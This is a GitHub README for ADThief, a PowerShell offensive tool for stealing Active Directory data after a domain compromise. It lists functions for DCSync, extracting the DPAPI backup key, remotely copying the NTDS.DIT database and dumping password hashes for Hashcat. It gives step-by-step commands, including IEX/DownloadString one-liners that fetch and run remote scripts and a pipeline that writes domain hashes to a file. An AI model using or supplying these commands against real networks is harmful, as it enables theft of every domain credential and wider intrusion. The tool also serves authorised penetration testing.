 # ADThief

ADThief is a PowerShell tool to exploit Active Directory database after compromising a Windows domain.

## Functions

```
Invoke-DCSync                   -   extracts domain accounts from Active Directory domain controller, including password hashes
Get-DpapiBackupKey              -   extracts the DPAPI backup key from Active Directory domain controller
Get-ADDatabase                  -   steals Active Directory database remotely
Dump-ADDatabase                 -   dumps domain accounts from an offline Active Directory database, including password hashes
Mount-ADDatabase                -   mounts an Active Directory database as a local LDAP server
Get-LdapObject                  -   searchs for domain objects in a mounted Active Directory database
```

## Requirements

The functions `Invoke-DCSync`, `Get-DpapiBackupKey` and `Get-ADDatabase` require a privileged access to Active Directory, typically domain admin rights.
The functions `Dump-ADDatabase` and `Mount-ADDatabase` require admin rights on the local computer.

The functions `Invoke-DCSync`, `Get-DpapiBackupKey` and `Dump-ADDatabase` must be launched on a computer with DSInternals PowerShell module installed. The output of these functions can be formatted using custom views provided by the DSInternals module to support different password cracking tools. The Utils.ps1 file contains a function `Add-DSAccountCustomViews` to add optional views 'SecretsDump' and 'SecretsDumpHistory'.

```
PS C:\> Install-Module DSInternals -Scope CurrentUser
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/Utils.ps1')
PS C:\> Add-DSAccountCustomViews
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
PS C:\> Invoke-DCSync -Server DC.ADATUM.CORP -Credential ADATUM\Administrator | Format-Custom -View SecretsDump
```

The function `Mount-ADDatabase` must be launched on a computer with AD LDS installed. Please make sure to back up the NTDS.DIT file before using the option 'AllowUpgrade'. 

```
PS C:\> Enable-WindowsOptionalFeature -FeatureName "DirectoryServices-ADAM-Client" -Online
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
PS C:\> Get-ADDatabase -Server DC.ADATUM.CORP -Credential ADATUM\Administrator
PS C:\> Dump-ADDatabase | Format-Custom -View HashcatNT | Out-File -Encoding ascii ADATUM.hashes
PS C:\> Mount-ADDatabase -AllowUpgrade -LdapPort 1389
PS C:\> Get-LdapObject -Server localhost:1389 -SearchBase "dc=adatum,dc=corp" -Filter "(&(userAccountControl:1.2.840.113556.1.4.803:=65536)(!userAccountControl:1.2.840.113556.1.4.803:=2))" -Properties sAMAccountName,servicePrincipalName
PS C:\> Umount-ADDatabase
```

## Credits

* https://blog.netspi.com/getting-started-wmi-weaponization-part-4/
* https://github.com/MichaelGrafnetter/DSInternals
